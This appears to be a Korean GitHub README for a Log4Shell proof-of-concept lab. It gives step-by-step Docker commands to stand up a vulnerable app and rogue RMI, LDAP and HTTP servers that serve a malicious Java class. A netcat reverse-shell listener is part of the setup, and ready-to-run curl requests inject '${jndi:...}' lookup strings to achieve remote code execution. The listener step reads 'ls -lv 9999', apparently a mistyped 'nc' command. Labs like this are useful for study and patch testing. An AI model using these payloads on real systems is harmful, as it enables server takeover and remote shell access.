 # Log4Shell-PoC
Log4Shell PoC with RMI, LDAP

---- 

# 각 서비스에 대한 설명

|구분|위치|포트(TCP)|설명|
|:--:|:--:|:--:|:--:|
|`Vulnerable Application`|Docker 컨테이너 | 7777 | 취약한 웹 애플리케이션 서버로, Log4Shell 취약점이 발생된다.|
|`RMI Server` | Docker 컨테이너 | 1099 | Vulnerable Appliation으로 부터 RMI 요청을 전달받아, RCE 를 발생시키기 위한 페이로드를 응답한다.|
|`LDAP Server` | Docker 컨테이너 | 389 (openLDAP Server)8080 (phpLDAPadmin)|Vulnerable Appliation으로 부터 LDAP 요청을 전달받아, 악성 Java 객체를 다운로드 받도록 javaCodeBase 속성 값에 Exploit Server 주소 값을 전달한다.|
|`Exploit Server` | 호스트 | 8888 | /Exploit.class 를 요청할 경우 RCE를 일으키는 악성 Java 객체를 반환한다.|
|`nc -lv 9999` | 호스트 | 9999 | Vulnerable Application과 리버스 방식으로 셸을 연결하기 위함|

---- 

# PoC

## 0. 시연영상
> 아래 사진을 클릭하면 PoC 시연 영상으로 이동됩니다. <br>
> 또는, [https://youtu.be/hd-EQSkEjpM](https://youtu.be/hd-EQSkEjpM) 로 직접 확인하실 수 있습니다.

[![Log4Shell PoC with RMI, LDAP](./images/img-001.png)](https://youtu.be/hd-EQSkEjpM)


## 1. Vulnerable Application 셋팅 및 실행

### 빌드 및 실행

1. [DoTTak/Log4Shell-PoC](https://github.com/DoTTak/Log4Shell-PoC) 저장소로 부터 코드를 내려받은 뒤, 해당 프로젝트로 이동한다.
    
    ```bash
    git clone https://github.com/DoTTak/Log4Shell-PoC.git
    cd Log4Shell-PoC
    ```
    
2. 이후 `vulnerable-application` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    cd vulnerable-application
    docker build --platform linux/amd64 -t log4shell-poc-app .
    ```
    
3. 생성된 도커 이미지 `log4shell-poc-app:latest` 를 컨테이너로 실행하자.
    
    > 참고로, 웹 애플리케이션 서버 포트는 항상 `7777` 로 오픈 되어 있다. 변경은 `Application.java` 를 수정하면 된다.
    > 
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-poc-app -p 7777:7777 log4shell-poc-app
    ```

## 2. RMI Server 셋팅 및 실행

### 빌드 및 실행
1.  `rmi-server` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    docker build --platform linux/amd64 -t log4shell-rmi-server .
    ```
    
2. 생성된 도커 이미지 `log4shell-rmi-server:latest` 를 컨테이너로 실행하자.
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-rmi-server -p 1099:1099 log4shell-rmi-server
    ```

## 3. LDAP Server 셋팅 및 실행

> 악성 응답 데이터가 이미 셋팅되어 있다. 

### 빌드 및 실행
1. `ldap-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 실행한다.

    ```bash
    docker-compose up -d
    ```

    >  위 명령어가 정상적으로 수행됐으면 [http://localhost:8080](http://localhost:8080)를 브라우저를 통해 웹 UI로 접속할 수 있다.

2. LDAP 서버로 들어오는 요청을 확인하기 위해 아래의 명령어를 입력하여 로그 정보를 출력한다.
    
    ```bash
    docker container logs openldap -f
    ```

## 4. Exploit Server 셋팅 및 실행

> 참고로, 악성 Java 객체가 이미 컴파일 되어 저장소에 Commit 상태이다.

### 빌드 및 실행
1. `exploit-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 `Exploit.java` 를 컴파일한다.

    ```bash
    javac Exploit.java
    ```

2. 그 다음 해당 경로를 악성 자바 객체를 호스팅하기 위해 아래의 명령어를 통해 웹 서버를 실행한다.

    ```bash
    python3 -m http.server 8888
    ```

## 5. 리버스 셸 준비

1. 호스트 셸에서 아래의 명령어를 입력하여 `9999` 포트로 Listen

    > Exploit 이후, 연결이 끊어질 수 있다. 이에 연결이 끊긴 경우 아래 명령어를 재입력 한다.
    
    ```bash
    ls -lv 9999
    ```

## 6. Exploit 수행

> Exploit은 Host에서 Vulnerable Application으로 요청을 수행한다.

### [Exploit] Log4Shell using RMI
```bash
curl localhost:7777/log -H 'msg: ${jndi:rmi://host.docker.internal:1099/Services}'
```

### [Exploit] Log4Shell using LDAP
```bash
curl localhost:7777/log -H 'msg: ${jndi:ldap://host.docker.internal:389/cn=payload,ou=payloads,dc=example,dc=com}'
```